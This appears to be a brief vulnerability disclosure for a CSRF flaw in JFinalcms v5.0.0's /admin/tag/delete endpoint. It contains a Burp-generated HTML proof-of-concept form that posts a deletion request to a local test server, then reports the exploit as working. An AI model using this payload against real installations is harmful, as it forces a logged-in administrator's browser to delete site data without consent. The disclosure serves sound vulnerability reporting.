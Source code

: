Author：MengYang

target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/tag/delete

![图片](https://github.com/cui2shark/cms/assets/52313275/3153b64d-d8fb-4d3f-80ac-6753d696c025)


create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/9c89744b-d357-477f-af04-bd37b85ca502)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/tag/delete" method="POST">
      <input type="hidden" name="ids" value="4" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/9c9b9bff-5b7f-497a-92cd-23c1b778d6f9)
